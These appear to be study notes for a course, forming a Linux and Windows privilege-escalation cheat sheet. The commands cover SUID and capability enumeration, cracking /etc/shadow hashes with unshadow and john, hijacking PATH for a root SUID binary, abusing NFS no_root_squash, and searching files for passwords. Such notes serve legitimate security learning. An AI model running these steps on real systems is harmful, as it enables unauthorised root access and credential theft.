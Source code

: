**suid**
- SUID (Set-user Identification) and SGID (Set-group Identification)
- allow files to be executed with the permission level of the file owner or the group owner
- ``` find / -type f -perm -04000 -ls 2>/dev/null ```
- ``` unshadow shadow.txt passwd.txt > secret.txt ```
- ``` john --wordlist=/usr/share/wordlists/rockyou.txt secret.txt ``` 

**Capabilities**
- https://man7.org/linux/man-pages/man7/capabilities.7.html
- ``` getcap -r / 2>/dev/null ```

**cron jobs**
- ``` cat /etc/crontab ```

**PATH**
- ``` echo $PATH ```
- ``` find / -writable 2>/dev/null ``` find writable folders
- ``` find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u ``` 
- ``` grep -v ``` invert-match, select the non-matching lines. do not show "/proc/{ID}" lines.
- ``` export PATH=/tmp:$PATH ``` 
- when a root program "test" with "SUID" bit set, and it calls ``` system("thm") ```, we need to add executable "thm" to $PATH. And it can run as root after "test" executed. 

**NFS**
- Network File Sharing.
- SSH, Telnet.
- ``` cat /etc/exports ``` configurations
- The critical element for this privilege escalation vector is the "no_root_squash" option.
- ``` showmount -e {targetIP} ``` on attackers`, to check the target opened path
- ``` mkdir {attacker_path} ```
- ``` mount -o rw {targetIP}:/{showed open path} {attacker_path} ```

## Windows Privesc

automated enumeration script
- winPEAS or PowerUp.ps1

Manual checklist
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

Vulnerable machine
- https://github.com/sagishahar/lpeworkshop

command:
- ``` whoami /priv ``` Current user’s privileges
- ``` net users ``` list users
- ``` net user {username} ``` detail of a user
- ``` net localgroup ``` User groups defined on the system
- ``` net localgroup {groupname} ``` list members of a group
- ``` systeminfo ``` show system information
- ``` systeminfo | findstr /B /C:"OS Name" /C:"OS Version" ``` grep the output

search file:
- ``` findstr /si password *.txt ```
- /si: Searches the current directory and all subdirectories (s), ignores upper case / lower case differences (i)
